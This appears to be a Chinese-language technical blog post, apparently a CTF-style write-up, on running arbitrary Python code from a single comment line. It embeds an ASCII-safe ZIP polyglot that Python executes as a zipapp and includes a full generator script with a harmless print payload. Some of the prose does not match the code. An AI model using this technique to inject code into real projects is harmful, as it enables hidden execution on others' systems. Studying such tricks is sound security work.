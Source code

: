 ```yaml
---
date: 2025-08-04T10:30:00+08:00
draft: false
title: "Executing arbitrary Python code from a comment"
---
```

通过注释执行任意Python代码

### 问题描述
Q: 只能控制一行的.py代码中注释的内容(\n\r均会被替换为空字符), 如何执行任意代码?  
A: 在注释#中, 构造一个.zip 文件, python 会将该内容当成一个zip包执行, 触发任意代码执行  

### 解决方案
- 从 Python 3.5 起, 可以直接执行一个 .zip 文件
    ```python3
    python myapp.zip
    ```
    前提是ZIP 包中包含一个顶层的`__main__.py`文件, Python 会把它当作 zipapp, 自动解压并运行`__main__.py`

    > Python 会从末尾找到 ZIP 的目录结构, 而不是依赖文件头, 所以前面的“垃圾”字节会被忽略

Python 源码中的任何行, 只要以 # 开头, 解释器都会忽略后面内容, 因此可以:
- 把 ZIP 文件的数据藏在 Python 源码中的注释中（开头加 #）
- 把 ZIP 数据直接拼接在 Python 文件的后面, 只保证文件头部分是合法 Python
- ZIP 不关心前缀, Python 只要最前面是有效源码, 也不会管后面

### 难点
ZIP 文件头包含**二进制字段**，比如
- 偏移量（文件数据相对于 ZIP 开头的位置）
- 长度（文件名长度、注释长度等）
- 这些值写死在 header 里, 是十六进制整数
- 如果这些字节中出现了像 \x00、\xFF 等非 ASCII 内容, Python 就不能把它当注释

解决方法: 暴力穷举合法组合

想办法 **调整偏移值和结构位置**，使得最终写出来的 ZIP 文件
- 所有的字段值都转化为 可打印字符（ASCII 范围内）
- 所有 binary 字段看起来都像合法的注释字符串
于是用 `itertools.product(range(256), repeat=2)` 暴力尝试偏移组合，只要碰巧生成的 ZIP 包所有关键字节都在可打印范围内（ASCII 32~126），就认为成功。



下面是`generate_polygloy_zip.py`代码, 会生成一个符合要求的`polygloy.py`代码, 最后运行该代码, 可以执行Body里面的内容`BODY = b"print('FROM MAIN.py FILE!!!')#"`

```python3
# struct: 按字节结构打包数据，方便构造 ZIP 文件二进制头
# itertools: 用来暴力枚举 CRC 校验和后缀（确保安全ASCII）
# zlib: 计算 CRC32 校验和
import struct, itertools, zlib

# 文件开头代码
# encode(): Unicode 字符串 -> bytes 字节串
JUNK_HEAD = """print("Hello World!")
# This is a comment. Here's another:
# """.encode()

# 文件结尾代码
JUNK_TAIL = """
print("Thanks for playing!")"""


# zip 文件核心代码
# b: 字节串
FILENAME = b"__main__.py"
BODY = b"print('FROM MAIN.py FILE!!!')#"


# 校验 CRC 是否为 ASCII-safe
def ascii_safe(x: int) -> bool:
    return all(((x >> (8*i)) & 0x80) == 0 for i in range(4))


# 检查 32 位整数的四个字节，每个字节最高位（0x80）是否为 0，即是否为 ASCII 范围内的字节
def find_suffix(core: bytes, length: int = 4) -> tuple[bytes, int]:
    """
    - ZIP 文件 CRC32 计算结果必须 ASCII-safe（低于 0x80）
    - 这里用暴力方法，给 payload 后面加4字节后缀，找到合适的后缀让 CRC32 满足 ASCII-safe 条件
    """
    printable = range(0x20, 0x7f)
    for tail in itertools.product(printable, repeat=length):
        payload = core + bytes(tail)
        crc = zlib.crc32(payload) & 0xFFFFFFFF
        if ascii_safe(crc):
            return bytes(tail), crc

    raise RuntimeError("No ASCII-safe CRC found.")

# 计算最终 payload
SUFFIX, CRC = find_suffix(BODY)
PAYLOAD = BODY + SUFFIX
SIZE = len(PAYLOAD)

def le32(x): return struct.pack("<I", x) # 4字节小端无符号整数
def le16(x): return struct.pack("<H", x) # 2字节小端无符号整数

# ZIP 结构中各签名常量
SIG_LFH  = 0x04034B50 # 本地文件头 Local File Header
SIG_CDH  = 0x02014B50 # 中央目录头 Central Directory Header
SIG_EOCD = 0x06054B50 # 结束目录头 End of Central Directory

# zip 文件偏移量设置
delta = len(JUNK_HEAD)

# 构建 Local File Header
"""
Local File Header 是 ZIP 格式中的一部分，告诉解压程序该文件的元信息
- version needed to extract，flags，compression method 等字段置 0 表示无压缩，简单存储
- CRC32、压缩大小、解压大小都是我们计算的
- 文件名长度和文件名
"""
lfh = (
    le32(SIG_LFH) +
    le16(0) + le16(0) + le16(0) + le16(0) + le16(0) +
    le32(CRC) + le32(SIZE) + le32(SIZE) +
    le16(len(FILENAME)) + le16(0) +
    FILENAME
)

# 构建 Central Directory Header
"""
- Central Directory 是 ZIP 文件目录结构，记录每个文件信息和偏移，
- 其中重要的是 relative offset of LFH，也就是 Local File Header 在整个 ZIP 文件里的偏移，必须加上 delta
"""
cdh = (
    le32(SIG_CDH) +
    le16(0) + le16(0) + le16(0) + le16(0) + le16(0) + le16(0) +
    le32(CRC) + le32(SIZE) + le32(SIZE) +
    le16(len(FILENAME)) + le16(0) + le16(0) +
    le16(0) + le16(0) + le32(0) + le32(delta) +
    FILENAME
)

# 确保偏移量 ASCII-safe
"""
- ZIP 目录偏移需要是 ASCII 字节，否则写入 .py 文件时会出错
- 这里通过填充若干 \x00 字节，保证偏移合法
"""
cd_offset = delta + len(lfh) + len(PAYLOAD)
pad = 0
while not ascii_safe(cd_offset + pad):
    pad += 1
padding = b'\x00' * pad
cd_offset += pad

# 构建 End of Central Directory Header
"""
EOCD 记录 ZIP 中央目录大小、偏移及注释长度等信息
"""
eocd = (
    le32(SIG_EOCD) +
    le16(0) + le16(0) +
    le16(1) + le16(1) +
    le32(len(cdh)) +
    le32(cd_offset) +
    le16(len(JUNK_TAIL))
)

# 拼接完整 ZIP 内容
zip_bytes = lfh + PAYLOAD + padding + cdh + eocd
zip_bytes = bytearray(zip_bytes)
assert all(b < 0x80 for b in zip_bytes), "非 ASCII 字节存在"

# 写入 polyglot.py 文件
with open("polyglot.py", "wb") as f:
    f.write(JUNK_HEAD + zip_bytes + JUNK_TAIL.encode())

# 运行提示
print("✅ polyglot.py 生成完毕。运行它即可执行嵌入的 __main__.py 内容：")
print("  $ python3 polyglot.py")
```
